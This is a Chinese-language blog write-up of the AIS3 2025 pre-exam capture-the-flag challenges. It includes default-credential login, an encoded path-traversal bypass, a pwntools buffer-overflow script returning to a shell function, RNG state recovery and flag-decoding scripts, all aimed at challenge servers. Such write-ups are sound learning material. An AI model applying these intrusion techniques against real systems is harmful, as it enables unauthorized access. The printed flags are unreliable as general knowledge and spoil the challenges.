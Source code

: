 ```yaml
---
title: "2025 ais3 pre-exam write up"
date: 2025-07-25
draft: false
description: "a description"
tags: ["ctf", "writeups"]
---
```

# 2025 ais3 pre-exam write up

result:
![alt text](2025-05-26_170023.png)
這次解的題目最後全變 100 分 QAQ

題目都忘記截圖 ╯︿╰ 

## login screen 1

於 login page 嘗試弱密碼 admin/admin 成功登入
觀察 dockr-compose.yml
![image](./login_screen-1.png)
發現 db 可以訪問
下載 db 找到 2fa code
![image](./login_screen-2.png)
成功登入取得 flag

## tomorin db

直接進入 /flag 會被 redirect

將`/` URL encode 成功 bypass，進入
`chals1.ais3.org:30000/..%2fflag`
取得 flag

## Welcome to the World of Ave Mujica

- 動態分析發現可以 burrfer overflow
- 丟進 ida 發現 0x401256 有一個 shell

![image](./avemujica-1.png)

- 使用 cyclic 計算 offset
將 return address 覆蓋為 0x4012D6 取得 shell

``` python
import pwn

host = "chals1.ais3.org"
port = 60122
conn = pwn.remote(host, port)
# conn = pwn.gdb.debug("./chal", env={"LD_PRELOAD": "./libc.so.6"})

conn.recvuntil(b'?')
conn.sendline(b'yes')
conn.recvuntil(b': ')
conn.sendline(b'-1')
conn.recvuntil(b': ')

g = pwn.cyclic_gen()
conn.sendline(g.get(168) + pwn.p64(0x4012D6))
```

## Raman CTF

掃描發票上 qrcode 將發票號碼填入發票 app 取得發票資訊，再使用 google map 搜尋地址取得 flag

![image](./raman-1.png)


## AIS3 Tiny Server - Web / Misc

題目提到 root directory 嘗試進入 chals1.ais3.org:20616//
成功 LFI 訪問根目錄取得 flag
![image](./tiny-1.png)
取得flag

## Welcome

沒辦法直接複製，直接打，懶得找其他方法。
![image](./welcome.png)

## Stream

可以暴力遍歷 a 檢查 b 是否為完全平方數得到每輪使用的隨機數，因為 getrandbits() 使用 mt19937 ，只要取得 634*32bits 的已知隨機數可以預測後續生成之隨機數。

```python!
from random import getrandbits
from hashlib import sha512
import gmpy2
from pyrandcracker import RandCracker


def rev(a: bytes, b: int):
    return int.from_bytes(a) ^ b


craker = RandCracker()

randbyte = []

for i in l:
    for j in range(256):
        r = rev(sha512(j.to_bytes()).digest(), i)
        if gmpy2.is_square(r):
            craker.submit(gmpy2.isqrt(r), 256)
craker.check()
        
print((l[80]^craker.rnd.getrandbits(256)**2).to_bytes(32, 'big'))
```
執行腳本取得 flag
![image](./stream.png)

## AIS3 Tiny Server - Reverse

丟進 IDA 可以看到 `sub_1E20()` 這個 function 會檢查 flag

![image](./tinyserver_reverse-1.png)
![image](./tinyserver_reverse-2.png)

撰寫腳本還原 flag
```python

import struct

def extract_flag():
    encrypted_data = [
        1480073267, 
        1197221906, 
        254628393,  
        920154,     
        1343445007, 
        874076697,  
        1127428440, 
        1510228243, 
        743978009,  
        54940467,   
        1246382110  
    ]
    

    encrypted_bytes = []
    for num in encrypted_data:
        bytes_from_int = struct.pack('<I', num)
        encrypted_bytes.extend(bytes_from_int)
    
    # The XOR key from v7
    key = b"rikki_l0v3"
    

    
    encrypted_bytes.append(20) 
    
    decrypted = bytearray(45)  
    
    v2 = 51 
    v3 = 114
    
    for i in range(45):
        decrypted[i] = v2 ^ v3
        
        if i + 1 < 45:
            v2 = encrypted_bytes[i + 1]
            v3 = key[(i + 1) % len(key)] 

    flag = decrypted.decode('ascii', errors='ignore').rstrip('\x00')
    return flag

if __name__ == "__main__":
    flag = extract_flag()
    print(f"flag: {flag}")
```
取得flag
![image](./tinyserver_reverse-3.png)

## A simple snake game

丟 IDA 逆向找到有一個檢查分數和關卡的地方
![image](./snake-1.png)
patch 成 jg 跳過檢查
![image](./snake-2.png)
進入遊戲取得 flag
![image](./snake-3.png)

## web flag checker

從 source 可以看到 wasm
有一個函式叫 flag checker
![image](./flag_checker-1.png)
丟給 claude 幫忙 reverse 並撰寫腳本

```python!
import struct

def ror64(value, shift):
    """64-bit right rotation (inverse of left rotation)"""
    value &= 0xFFFFFFFFFFFFFFFF
    shift &= 63
    return ((value >> shift) | (value << (64 - shift))) & 0xFFFFFFFFFFFFFFFF



def solve_flag_properly():
    expected_encrypted = [
        7577352992956835434,    # Chunk 0: "AIS3{W4S" with ROR 45
        7148661717033493303,    # Chunk 1: "M_R3v3rs" with ROR 28  
        (-7081446828746089091) & 0xFFFFFFFFFFFFFFFF,  # Chunk 2: needs brute force
        (-7479441386887439825) & 0xFFFFFFFFFFFFFFFF,  # Chunk 3: needs brute force
        8046961146294847270     # Chunk 4: "39229dd}" with ROR 61
    ]
    for i in range (5):
        print(f"\n--- Finding Chunk {i} ---")
        encrypted2 = expected_encrypted[i]
        best_chunk2_candidates = []

        for key in range(64):
            decrypted = ror64(encrypted2, key)
            try:
                bytes_data = struct.pack('<Q', decrypted)
                text = bytes_data.decode('ascii', errors='replace')
                printable_count = sum(1 for c in text if c.isprintable() and c != '�')

                if printable_count >= 6:
                    best_chunk2_candidates.append((key, bytes_data, text, printable_count))
            except:
                continue
        for key, data, text, score in best_chunk2_candidates[:10]:
            print(f"  Key {key:2d}: {text}")

    
  
if __name__ == "__main__":

    solve_flag_properly()
    

```

![image](./flag_checker-2.png)

組合 flag 得到 `AIS3{W4SM_R3v3rsing_w17h_g0_4pp_39229dd}`

---

